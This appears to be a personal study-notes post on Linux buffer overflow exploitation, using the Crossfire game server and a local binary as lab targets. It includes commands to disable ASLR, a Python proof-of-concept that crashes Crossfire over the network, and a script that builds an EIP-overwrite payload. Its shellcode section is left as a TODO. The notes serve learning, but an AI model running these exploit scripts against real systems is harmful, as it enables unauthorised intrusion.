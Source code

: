 ```yaml
---
description: >-
  Buffer Overflow (Linux)
title: Buffer Overflow (Linux)              # Add title here
date: 2022-11-05 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Buffer Overflow (Linux)]                     # Change Templates to Writeup
tags: [exploitation, linux buffer overflow]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


First we need to disable ASLR on Kali for testing:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Setting up the EDB debugger
First thing, it runs with the following command:
```bash
root@debian:~# edb --run binary
```

> Remember to run EDB from the same folder of your binary
{: .prompt-tip }

The layout of EDB is similar to other popular debugging tools, as shown below:

![Description](/assets/img/Pasted image 20230331095931.png)

To see available processes including the PID and owner, we will select _Attach_ from the _File_ menu. We can then use the filter option to search for a specific process, which in our case is _crossfire_, select it, and click _OK_ to attach to it:

![Description](/assets/img/Pasted image 20230331095959.png)

When we initially attach to the process, it will be paused. To run it, we simply click the _Run_ button. Depending on how the application works within the debugger it might hit an additional breakpoint before letting the application run. In such cases we simply have to press the _Run_ button one more time.

![Description](/assets/img/Pasted image 20230331100301.png)

### Calculate Buffer

Once we have attached the debugger to the application, we will use the following proof-of-concept code that we created based on information from the public exploit:

```python 
#!/usr/bin/python
import socket

host = "10.11.0.128"

crash = "\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Notice that our _buffer_ variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Our initial proof-of-concept builds a malicious buffer including the "setup sound" command, connects to the remote service on port 13327, and sends the buffer.

To crash Crossfire, we can run our first proof-of-concept using python:

```bash
kali@kali:~$ python poc_01.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

After running the script, the debugger displays the following error message, clearly indicating the presence of a memory corruption in the _setup sound_ command, likely a buffer overflow condition:

![Description](/assets/img/Pasted image 20230331100340.png)

Clicking the _OK_ button, we find that the EIP register has been overwritten with our buffer.

### Find memory address of a function
If by any chance, you know that there is a function which helps you to execute your buffer by redirecting it to the EIP the following command can retrieve the memory address:

```bash
objdump -d execution-flow-linux | grep flag
0804862b <flag>:
 8048667:       75 1c                   jne    8048685 <flag+0x5a>
 8048683:       eb 37                   jmp    80486bc <flag+0x91>
```

### Control EIP

In order to create linux payloads it's better if we use python2 as such payloads can be encoded as bytes easily by using the following syntax:

```bash
#!/usr/bin/env python2
Initial ="A"*3892
payloadBytes = Initial + b"\x2b\x86\x04\x08"
#	Open in "wb" mode to write a new file, or "ab" mode to append
with open("exploit.txt", "wb") as binary_file:
# Write bytes to file 
	binary_file.write(payloadBytes)
```

As seen below, the EIP memory address is being converted as bytes with the b"" syntax.

### Locating Space for Our Shellcode

TODO

### Checking for Bad Characters

We sent the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory once they were processed by the application.